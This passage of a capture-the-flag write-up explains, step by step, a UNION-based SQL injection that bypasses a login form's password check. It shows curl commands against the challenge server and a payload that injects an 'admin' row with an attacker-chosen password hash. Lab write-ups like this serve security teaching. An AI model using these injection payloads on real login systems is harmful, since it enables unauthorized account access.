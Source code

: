 ```
SELECT * FROM table1
UNION
SELECT * FROM table2
```

### Solution

For the solution, there is four things we should consider :

1. We need the first query, which is the `user`'s one, to return nothing, this way we can give the second `query` (which will explain in the second point) the chance to return the result **We Want**, which enables us to bypass the `pass` check (which we will explain in the third point). To do that, we need to give a random user that isn't registered in the database :


```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=whtvr&pass=admin"
```

It gives us the `No such user` error :

```html
...
        <br><br>
        No such user    </form>
...
</html>
```

So, here is our payload so far (Note the use of `'` to close the first query, and the ..., which will be completed in next points):

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=whtvr'...&pass=admin"
```

2. Next, comes the second query we were talking about, this `query` will enable us to not only return some data after the first one failed to do so (Thanks to us), but also data that we can control (again to bypass the `pass` check). For this one, we will use the `query` learnt in the [**Basics**](#basics) section :

```
SELECT 'admin','YOUR_HASHED_PASS_HERE'
```

This enables us to return a row that contains two values : a `user` and a `pass` which is hashed. the password is hashed we are simulating a return state from the database, where the passwords area actually hashed before stored in the db. So, to sum, we are actually the **SQLi** to get the `user` request to return what we actually want : a valid user, and a password that we kinda chosen for it.

Also, to make this `query` to be executed correctly, we will need to use the `UNION` query.

Here is what the exploit will become :

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=whtvr'UNION SELECT 'admin','YOUR_HASH_PASS_HERE&pass=admin"
```

